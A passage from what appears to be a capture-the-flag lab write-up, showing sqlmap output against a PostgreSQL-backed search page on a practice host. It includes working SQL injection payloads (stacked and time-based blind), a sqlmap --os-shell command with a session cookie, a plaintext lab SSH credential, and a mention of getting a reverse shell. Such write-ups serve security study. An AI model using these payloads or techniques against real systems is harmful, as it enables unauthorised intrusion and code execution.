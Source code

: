 ~~~

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=a' AND 8099=(SELECT 8099 FROM PG_SLEEP(5))-- bjrW
---
[20:11:58] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[20:11:58] [INFO] fetched data logged to text files under '/home/unknown/.sqlmap/output/10.10.10.46'

[*] ending @ 20:11:58 /2020-06-12/
~~~

Sqlmap found the page to be vulnerable to multiple injections, and identified the backend DBMS to be PostgreSQL. Getting code execution in postgres is trivial using the --os-shell command.

## Automatic way (using sqlmap)

**Note: this has not been working for me (tested on 2 machines with different OS and different versions of sqlmap). Either jump to the next section (manual way) or connect to SSH with `postgres:P@s5w0rd!`**

~~~
unknown@ubuntu:/data$ sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=a' --cookie='PHPSESSID=ojq8sk0069d5h4uq96qr93c063' --os-shell

[REDACTED]

---
[11:32:48] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[11:33:02] [INFO] fingerprinting the back-end DBMS operating system
[11:33:14] [INFO] the back-end DBMS operating system is Linux
[11:33:19] [INFO] testing if current user is DBA
[11:33:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[11:35:21] [CRITICAL] connection timed out to the target URL
[11:35:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[11:37:21] [CRITICAL] connection timed out to the target URL
[11:37:21] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[11:37:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
~~~

This can be used to execute a bash reverse shell.
